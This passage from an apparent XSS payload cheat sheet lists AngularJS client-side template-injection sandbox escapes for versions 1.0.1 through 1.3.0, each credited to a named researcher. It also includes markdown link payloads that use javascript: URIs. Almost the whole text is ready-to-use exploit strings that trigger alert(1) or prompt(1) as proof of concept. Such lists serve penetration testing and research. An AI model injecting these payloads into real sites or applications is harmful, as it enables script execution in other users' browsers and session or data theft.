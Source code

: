 ```md
[a]:(javascript:alert(1))           //Add SOH Character
```
     
## AngularJS Template Injection based XSS**

*For manual verification on a live target, use `angular.version` in your browser console*

**1.0.1 - 1.1.5** by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

**1.2.0 - 1.2.1** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

**1.2.2 - 1.2.5** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

**1.2.6 - 1.2.18** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**1.2.19 - 1.2.23** by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

**1.2.24 - 1.2.29** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**1.3.0** by [Gábor Molnár (Google)](https://twitter.com/molnar_g)

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```


[a]: (javascript:prompt(1))